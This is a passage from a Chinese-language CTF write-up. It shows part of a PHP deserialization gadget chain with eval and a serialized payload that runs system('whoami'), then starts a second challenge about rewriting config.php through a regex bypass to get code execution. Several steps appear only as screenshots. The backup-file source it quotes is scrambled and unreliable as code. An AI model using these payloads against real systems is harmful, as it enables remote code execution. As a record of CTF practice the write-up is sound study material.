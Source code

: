 ```
        eval($cmd);
    }
}
$payload = new BillyHerrington();
echo serialize($payload);
```

```
O:15:"BillyHerrington":5:{s:1:"a";O:8:"Baoglady":2:{s:1:"b";O:12:"VanDarkholme":1:{s:1:"d";N;}s:1:"c";s:17:"system('whoami');";}}
```

![image-20221121213209267](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211212132381.png?x-oss-process=hzy)

![image-20221121213244231](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211212132327.png?x-oss-process=hzy)

SYC{XD_why_php_s0_1nter3sting}

## uploadrce

![image-20221116180611010](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211161806459.png?x-oss-process=hzy)

备份文件先扫一下目录

![image-20221116180725100](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211161807194.png?x-oss-process=hzy)

第一个备份文件是config.php的备份文件，内容如下

```
   $$option='chinfo'; <?php 
   
   <?php 
$option='chinfo';
```

第二个备份文件内容如下

```
 ffile_put_contents('./config.php', $file); $file = preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file); $file = file_get_contents('./config.php');     }       echo ':Where is the source code of config.php?'; if($str != NULL){  $str = addslashes($_GET['option']); if(!isset($_GET['option'])) die(); <?php 
```

整理一下如下

![image-20221116191303152](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211161913269.png?x-oss-process=hzy)

正则匹配绕过

![image-20221116202947921](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211162029989.png?x-oss-process=hzy)

这个时候再get传一下chinfo就会把\正则匹配替换掉

![image-20221116180918207](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202211161809298.png?x-oss-process=hzy)

